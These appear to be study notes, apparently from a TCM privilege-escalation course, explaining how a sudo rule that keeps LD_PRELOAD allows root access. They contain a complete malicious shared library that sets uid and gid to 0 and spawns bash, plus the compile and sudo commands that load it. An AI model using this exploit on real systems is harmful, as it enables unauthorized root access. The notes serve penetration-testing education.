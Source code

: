Once we do sudo -l, you'll find an environment variable called LD_PRELOAD. 

LD_PRELOAD is also called Preloading. Preloading is a preloading feature of the LD(Dynamic Linker). So, we're gonna be preloading a library(user specific shared library) before any other shared libraries are loaded, meaning we're gonna run sudo here with this LD_PRELOAD and we're going to run it on any command we want but, we're going to be able to execute our own library and preload that before we run anything else. So, we're making a malicious library when we're doing this.

Here's the example that TCM made(shell.c):

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

First we insert all the libraries essential for a C program to run and then this program to run.

Then we unset an environment variable called LD_PRELOAD. Then we set gid and uid as 0, which is root. And he wants the system to be /bin/bash when he runs this.

Then you need to compile this C code. For that you run this command:

```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

PIC means Position Independent Code. Basically irrespective of where your shell addressing is, this is still going to work.

Then to run this file, you run this command:

```shell
sudo LD_PRELOAD=<location_of_shell.so> apache2
```